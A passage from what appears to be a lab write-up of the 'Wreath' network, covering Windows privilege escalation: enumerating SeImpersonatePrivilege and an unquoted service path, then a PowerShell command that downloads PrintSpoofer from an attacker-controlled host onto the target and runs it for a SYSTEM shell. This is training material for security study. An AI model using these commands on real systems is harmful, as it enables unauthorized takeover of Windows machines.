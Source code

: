 ### Privilege escalation
Doing some manual enumeration , we get :
1> we have `SeImpersonatePrivilege` privilege running for us which is very famous for being used in the PrintSpoofer and Potato series of privilege escalation exploits.

{{< image src="/images/wreath/33.png" alt="error" position="center" style="border-radius: 8px;" >}}

2> The account we are running is not in the local administrator's group.

{{< image src="/images/wreath/34.png" alt="error" position="center" style="border-radius: 8px;" >}}

3> Using command:
```plain-text
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
we get the `SystemExplorerHelpService` service which is vulnerable to an unquoted service path attack.

{{< image src="/images/wreath/35.png" alt="error" position="center" style="border-radius: 8px;" >}}

I will continue with the PrintSpoofer exploit.
Download it from [Github](https://github.com/itm4n/PrintSpoofer). Transfer it to the target using powershell:
```powershell
powershell.exe -c "(new-object
System.Net.WebClient).DownloadFile('http://Your-IP/USERNAME-
PrintSpoofer64.exe','C:\xampp\htdocs\resources\uploads\USERNAME-
PrintSpoofer64.exe')
```
Initiate the exploit using `USERNAME-PrintSpoofer64.exe -i -c powershell`

{{< image src="/images/wreath/45.png" alt="error" position="center" style="border-radius: 8px;" >}}

And we're root.
